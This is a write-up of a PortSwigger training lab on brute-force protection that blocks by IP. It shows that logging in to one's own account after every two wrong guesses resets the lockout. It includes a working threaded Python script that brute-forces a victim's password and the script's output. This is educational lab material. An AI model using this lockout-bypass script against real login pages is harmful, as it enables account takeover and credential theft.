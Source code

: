 # Broken brute-force protection, IP block | Dec 21, 2022

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/authentication/password-based/lab-broken-bruteforce-protection-ip-block), you'll learn: Broken brute-force protection, IP block! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★★☆☆☆☆☆☆☆☆

## Background

This lab is vulnerable due to a logic flaw in its password brute-force protection. To solve the lab, brute-force the victim's password, then log in and access their account page.

-   Your credentials: `wiener:peter`
-   Victim's username: `carlos`
-   [Candidate passwords](https://portswigger.net/web-security/authentication/auth-lab-passwords)

## Exploitation

**Login page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Authentication/Auth-6/images/Pasted%20image%2020221221083117.png)

**Let's try to type `carlos`'s password incorrectly multiple times and see what happend:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Authentication/Auth-6/images/Pasted%20image%2020221221083224.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Authentication/Auth-6/images/Pasted%20image%2020221221083239.png)

When we typed a valid username and **an incorrect password, it displays `Incorrect password`.**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Authentication/Auth-6/images/Pasted%20image%2020221221083330.png)

When we typed an incorrect password 4 times, it'll block our IP.

**To bypass that, I'll add a HTTP header called `X-Forwarded-For`:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Authentication/Auth-6/images/Pasted%20image%2020221221083432.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Authentication/Auth-6/images/Pasted%20image%2020221221083622.png)

No luck.

**How about we type incorrect password twice, then login as user `wiener`?**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Authentication/Auth-6/images/Pasted%20image%2020221221084237.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Authentication/Auth-6/images/Pasted%20image%2020221221084249.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Authentication/Auth-6/images/Pasted%20image%2020221221084258.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Authentication/Auth-6/images/Pasted%20image%2020221221084315.png)

We successfully bypassed that!

**To brute force `carlos` password, I'll write a python script:**
```py
#!/usr/bin/env python3

import requests
from threading import Thread
from time import sleep

def fetchPassword(filename):
    listPassword = list()

    with open(filename) as fd:
        for line in fd:
            listPassword.append(line.strip())

    return listPassword

def sendRequest(url, cookie, password):
    carlosLoginData = {
        'username': 'carlos',
        'password': password
    }

    loginRequestText = requests.post(url, cookies=cookie, data=carlosLoginData).text

    if 'Incorrect password' not in loginRequestText:
        print(f'[+] Found password: {password}')

def loginRequest(url, cookie):
    wienerLoginData = {
        'username': 'wiener',
        'password': 'peter'
    }

    requests.post(url, cookies=cookie, data=wienerLoginData)

def main():
    url = 'https://0a84002a04a52b41c1d2ad230038003c.web-security-academy.net/login'
    cookie = {'session': 'Cq005y0KwJZYOigpmKSQPxrTay0VWfgu'}

    passwordFileName = './auth_password.txt'
    listPassword = fetchPassword(passwordFileName)
    
    counter = 0

    for password in listPassword:
        counter += 1

        if counter == 2:
            counter = 0
            loginRequest(url, cookie)

        thread = Thread(target=sendRequest, args=(url, cookie, password))
        thread.start()
        sleep(0.2)

if __name__ == '__main__':
    main()
```

```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/Authentication]
└─# python3 enum_password_bypass.py
[+] Found password: superman
```

- Found user `carlos` password: `superman`

**Let's login as user `carlos`!**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Authentication/Auth-6/images/Pasted%20image%2020221221090827.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Authentication/Auth-6/images/Pasted%20image%2020221221090834.png)

We're user `carlos`!

# What we've learned:

1. Broken brute-force protection, IP block